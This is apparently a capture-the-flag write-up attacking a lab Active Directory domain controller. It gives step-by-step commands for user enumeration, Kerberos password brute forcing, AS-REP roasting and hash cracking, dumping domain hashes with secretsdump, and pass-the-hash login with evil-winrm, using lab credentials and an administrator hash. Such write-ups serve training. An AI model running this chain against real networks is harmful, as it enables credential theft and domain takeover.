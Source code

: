 # **Attacking Active Directory**

***
## **Difficulty = Info**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/e258cea5-0589-4240-98fb-f444d291c0d6)
***


Running our nmap scan we have 

```bash
# Nmap 7.94 scan initiated Fri Dec 29 07:26:23 2023 as: nmap -p53,80,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sCV --min-rate=1000 -T4 -oN nmap.txt -v 10.10.234.228
Nmap scan report for 10.10.234.228
Host is up (0.29s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-29 06:26:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-12-29T06:26:53
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 29 07:27:07 2023 -- 1 IP address (1 host up) scanned in 44.78 seconds
```


> [!bug]
> According to nmap output, we have `spookysec.local`, in this case `.local` is identified as the Top-Level Domain (TLD)


# **SMB Enumeration - Port 139/445**

We can use the tool `enum4linux` to enumerate this port, we have **THM-AD** as the `NetBIOS-Domain` Name


![](https://i.imgur.com/Uzgypv9.png)


We also have some lists of users

![](https://i.imgur.com/JaORfAd.png)


We can also use `rpcclient` to enumerate 


```bash
rpcclient -U "" -N 10.10.234.228
```


![](https://i.imgur.com/L10FL7X.png)


Some important commands as used above -:


```bash
rpcclient>srvinfo

rpcclient>enumdomusers

rpcclient>getdompwinfo
```


We couldn't get anything from `rpcclient` though, so let keep enumerating



# **Kerberos Enumeration - Port 88**


We can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate this service to brute force discovery of users, passwords and even password spray!

> [!info]
> Kerberos is a key authentication service within Active Directory.

- **Enumerate** users on a domain

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute userenum --dc 10.10.234.228 -d spookysec.local <Username_wordlist>
```


![](https://i.imgur.com/BOwIWDn.png)


- Bruteforce password of a single user

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute bruteuser --dc 10.10.234.228 -d spookysec.local <passwd_wordlist> <username>
```


![](https://i.imgur.com/2iAQcWV.png)
![](https://i.imgur.com/UxGMJ1D.png)


# **Abusing Kerberos**


we can abuse a feature within Kerberos with an attack called **ASREPRoasting**, we can use a tool called `GetNPUsers.py` withing **impackets** to do this


```bash
GetNPUsers.py spookysec.local/ -dc-ip 10.10.234.228 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```


As we can see below we have the hash of only `svc-admin` user, a service account


![](https://i.imgur.com/flTlJ5Y.png)


we can go ahead and crack it using `hashcat`

```bash
hashcat -m 18200 hashes.txt ./passwordlist.txt
```


![](https://i.imgur.com/V5Dqn9w.png)

Same password we got with `kerbrute`, Nice :)


# Enumeration Cont'D


Since we now have the username and passwords of the `svc-admin` user and `backup` user given more access within the domain, We can now attempt to enumerate any shares that the domain controller may be giving out.

First tool that comes to mind is `smbclient` and `smbmap`, let try to see shares on this users

```bash
# smbclient
smbclient -U 'svc-admin' -L \\\\10.10.234.228\\

# smbmap
smbmap -u 'svc-admin' -p 'management2005' -H 10.10.234.228
```


`svc-admin` user -:


![](https://i.imgur.com/C3lCOix.png)


`backup` user -:

![](https://i.imgur.com/2iE2kmN.png)


Enumerating `svc-admin` share we found a backup directory with a `backup_credentials.txt` file

![](https://i.imgur.com/TmgRNL6.png)


We can read this file using `smbclient`


![](https://i.imgur.com/ntECgGC.png)

Decoding the content of this file from `Basee64` gives us this


```
backup@spookysec.local:backup2517860
```


Haha, looks like we are a bit faster, `kerbrute` has done most of the work for us :)


```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


# **Elevating Privileges within the Domain**


The backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes. we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account has to offer in `NTDS.dit`

```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


![](https://i.imgur.com/4SRZHpC.png)



Since we have the **Win-RM** port opened(**5985**), we can use a tool called `evil-winrm` to gain shell on our target with just their **usernames** and respective **NT hashes** using the **pass-the-hash** attack

**_Administrator_** -:

```bash
evil-winrm -i 10.10.234.228 -u administrator -H '0e0363213e37b94221497260b0bcb4fc'
```


![](https://i.imgur.com/BMRYiqX.png)


Since we are admin and we can't login via `svc-admin` and `backup` we can go ahead and retrieve the other flags located under `C:\Users\` :)

GG



